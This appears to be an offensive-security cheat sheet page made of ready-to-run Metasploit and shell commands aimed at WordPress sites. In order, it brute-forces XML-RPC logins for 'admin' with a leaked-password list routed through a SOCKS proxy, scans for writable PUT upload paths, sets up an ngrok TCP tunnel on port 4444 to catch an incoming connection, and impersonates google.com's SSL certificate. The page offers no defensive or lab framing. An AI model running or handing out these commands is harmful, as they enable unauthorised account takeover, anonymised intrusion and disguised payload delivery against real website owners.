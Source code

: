 {% hint style="info" %}
Brute force XMLRPC with Multitor
{% endhint %}

```bash
msfconsole -qx "
    use scanner/http/wordpress_xmlrpc_login;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    set USERNAME admin;
    set PASS_FILE /usr/share/seclists/Passwords/darkweb2017-top10000.txt;
    set THREADS 10;
    set STOP_ON_SUCCESS true;
    set Proxies socks4:127.0.0.1:16379;
    run;
    exit"
```

{% hint style="info" %}
Scan PUT Methods
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/http/http_put;
    set RHOSTS $WEBSITE;
    set RPORT 443;
    set SSL true;
    set PATH /wp-content/uploads;
    run -j"
```

{% hint style="info" %}
Start Ngrok
{% endhint %}

```bash
ngrok tcp 4444 >/dev/null 2>&1 &
```

{% hint style="info" %}
Define ENV Ngrok
{% endhint %}

```bash
NGINFO=$(curl --silent --show-error http://127.0.0.1:4040/api/tunnels); \
NGHOST=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/([^"]*):.*/\1/p'); \
NGPORT=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/.*.tcp.*.ngrok.io:([^"]*).*/\1/p')
```

{% hint style="info" %}
Cert Spoof
{% endhint %}

```bash
rm -rf /home/$USER/.msf4/loot/*
msfconsole -qx "
    use auxiliary/gather/impersonate_ssl;
    set RHOSTS google.com;
    run;
    exit"
```
